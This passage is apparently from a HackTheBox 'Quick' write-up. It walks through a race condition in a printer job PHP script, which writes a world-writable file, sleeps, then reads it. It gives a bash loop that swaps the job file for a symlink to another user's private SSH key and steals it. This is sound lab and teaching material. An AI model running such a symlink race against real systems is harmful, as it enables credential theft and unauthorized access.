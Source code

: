![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2002:44:54.png)

We get the jobs.php file, it's the file which process the printer query

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2002:48:03.png)

Line 8, test if you are logged, line 10, if you click "submit".

The most interesting part is this

```php
file_put_contents("/var/www/jobs/".$file,$_POST["desc"]);
chmod("/var/www/printer/jobs/".$file,"0777");
sleep(0.5); //Buffer for socket check
$printer = new Printer($connector);
$printer -> text(file_get_contents("/var/www/jobs/".$file));
$printer -> cut();
$printer -> close();
unlink("/var/www/jobs/".$file);
```

What it does? Filename is current timestamp, set the content in the file, sleep, read and send to the printer and delete the file.
`file_get_contents` and `file_put_contents` will follow symlinks

Insight get from snowscan

```
The race condition vulnerability here is the sleep(0.5) delay that was added. Because the print job file is modifiable by anyone (chmod 0777), it’s possible to swap the file by a symlink before the rest of the code reads the content. In other words, we can read or write any file as user srvadm
```

Again with help of **0xdf** blog, we get the code that will retrieve me de the private ssh key from the user

```
This loop is constantly listing the files in jobs. For each file, if it can read the file (ie, it’s the one created by the printer PHP page), it deletes it and creates a symlink to what I hope is a private key in srvadm's home directory.
```

```sh
while true; do for fn in *; do if [[ -r $fn ]]; then rm -f $fn; ln -s /home/srvadm/.ssh/id_rsa $fn; fi; done; done
```

We set the loop

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2003:00:17.png)

Assign a new job

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2002:59:32.png)

And get the ssh private key

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2003:00:04.png)
